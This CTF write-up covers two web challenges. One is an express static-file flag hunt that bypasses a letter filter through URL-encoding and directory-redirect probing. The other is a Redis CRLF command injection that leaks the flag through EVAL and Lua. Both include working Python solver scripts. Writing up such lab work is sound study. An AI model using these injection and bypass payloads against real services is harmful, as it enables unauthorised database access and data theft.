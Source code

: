 ```yaml
---
title: "Alpaca Hack round 7- writeup"
date: "2024-12-01T00:00:00.000Z"
lang: EN
---
```


## ✅ Treasure Hunt (116pts 71solves)

### Overview

```javascript:index.js
app.use(express.static("public"));
```

The express server serves static files from the `public` folder. `flag.txt` is placed in a folder inside `public`, which is randomly created in the following way.

```Dockerfile:Dockerfile
RUN FLAG_PATH=./public/$(md5sum flag.txt | cut -c-32 | fold -w1 | paste -sd /)/f/l/a/g/./t/x/t \
 && mkdir -p $(dirname $FLAG_PATH) \
 && mv flag.txt $FLAG_PATH
```

The flag is located in a place something like

```
d/4/1/d/8/c/d/9/8/f/0/0/b/2/0/4/e/9/8/0/0/9/9/8/e/c/f/8/4/2/7/e/f/l/a/g/t/x/t
```

The goal of the challenge is to somehow identify the folder names. 

In addition, you have to somehow bypass the following WAF.

```javascript:index.js
app.use((req, res, next) => {
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
 }
  next();
});
```

This restriction prevents the use of `f`, `l`, `a`, or `g` in the URL. Since the path always ends with `f/l/a/g/t/x/t`, we have to somehow bypass this.

### Solution

Bypassing the URL restriction is quite simple: URL encoding. `req.url` doesn't automatically decode URL encoding, but the express uses a decoded URL to determine the route.

I used the [raw_request](https://gist.github.com/tepel-chen/230fdc4349f1244b303049446290c494) function I wrote since the python `request` module does not support URL-encoded paths.

Next, I wanted to determine whether the directory exists. Upon reviewing the serve-static source code, I discovered that [if a path without a trailing / corresponds to a directory, it automatically redirects to the URL with / appended](https://github.com/expressjs/serve-static/blob/e2bf828a6899e18969e522ddce304fec497b058f/index.js#L193).

### Full exploit

```python:solver.py
import requests
import raw_request

URL = "http://34.170.146.252:19843/"
# URL = "http://localhost:3000/"
EVIL = "https://tchenio.ngrok.io/"


s = requests.session()

cur = ""
while True:
    for c in "0123456789abcdef":
 r = raw_request(URL, strs=f"GET /{cur}%{hex(ord(c))[2:]} HTTP/1.1\r\nHost: localhost:3000\r\n\r\n")
        print(r.status_code)
        if r.status_code == 301:
 cur += "%" + hex(ord(c))[2:] + '/'
            break
    else:
        break
r = raw_request(URL, strs=f"GET /{cur}%6c/%61/%67/t/x/t HTTP/1.1\r\nHost: localhost:3000\r\n\r\n")
print(r.text)
```

## ✅ Alpaca Poll (146pts 42solves)

### Overview

The server provides a service that preserves some counters for animals. The application uses the Redis as its database. The counters are initialized as shown below, and the flag is also added to the database during initialization.

```javascript:db.js
function connect() {
    return new Promise(resolve => {
        const socket = net.connect('6379', 'localhost', () => {
            resolve(socket);
 });
 });
}

function send(socket, data) {
    console.info('[send]', JSON.stringify(data));
    socket.write(data);

    return new Promise(resolve => {
        socket.on('data', data => {
            console.info('[recv]', JSON.stringify(data.toString()));
            resolve(data.toString());
 })
 });
}
/* snap */
export async function init(flag) {
    const socket = await connect();

    let message = '';
    for (const animal of ANIMALS) {
        const votes = animal === 'alpaca' ? 10000 : Math.random() * 100 | 0;
        message += `SET ${animal} ${votes}\r\n`;
 }

    message += `SET flag ${flag}\r\n`; // please exfiltrate this

    await send(socket, message);
    socket.destroy();
}
```

You can increase the counter through the `/vote` endpoint.

```javascript:index.js
app.post('/vote', async (req, res) => {
    let animal = req.body.animal || 'alpaca';

    // animal must be a string
    animal = animal + '';
    // no injection, please
    animal = animal.replace('\r', '').replace('\n', '');

    try {
        return res.json({
            [animal]: await vote(animal)
 });
 } catch {
        return res.json({ error: 'something wrong' });
 }
});
```

```javascript:db.js
export async function vote(animal) {
    const socket = await connect();
    const message = `INCR ${animal}\r\n`;

    const reply = await send(socket, message);
    socket.destroy();

    return parseInt(reply.match(/:(\d+)/)[1], 10); // the format of the response is like `:23`, so this extracts only the number 
}
```

You can see that the queries are sent through a raw socket connection. The following line removes `\r` and `\n` from the input, aiming to prevent command injection.
```javascript:db.js
animal = animal.replace('\r', '').replace('\n', '');
```

Can we manipulate the query to run an arbitrary query to Redis?

### Solution

[`String.prototype.replace`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/String/replace) replaces only the first occurrence of the substring. (If you need to replace all occurrence, you need to use [`String.prototype.replaceAll`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/String/replaceAll).) Hence, you can inject `\r\n` by repeating it more than once.

You can use`GET flag` to query for the flag. However, you won't be able to see the content of the flag with `INCR dog\r\nGET flag\r\n` because the result of the query looks like this:

```
:74
$16
Alpaca{REDACTED}
```

The result of `reply.match(/:(\d+)/)[1]` will be `74`.

After some research on Redis commands, I found out that  [`EVAL`](https://redis.io/docs/latest/develop/interact/programmability/eval-intro/) can execute Lua script on the database. 

Inside the script, you can use the `redis.call` command to run any redis command. By combining Lua's `string.byte`, I can extract individual characters of the flag as their ASCII values. These values are then set as the counter for a specific key (e.g., dog). Repeating this process for each character position allows for reconstructing the entire flag.

### Final Exploit

```python:solver.py
import requests

# URL = "http://34.170.146.252:54728/"
URL = "http://localhost:3000/"
EVIL = "https://tchenio.ngrok.io/"

s = requests.session()
cur = "A"
while cur[-1] != "}":
 r = s.post(URL + "vote", data={
        "animal": f"\r\ndog\r\nEVAL 'return redis.call(\\'SET\\', \\'dog\\', string.byte(redis.call(\\'GET\\', \\'flag\\'),{len(cur) + 1}))' 0 "
 })
 cur += chr(int(r.text.split(":")[1][:-1])-1)
    print(cur)
```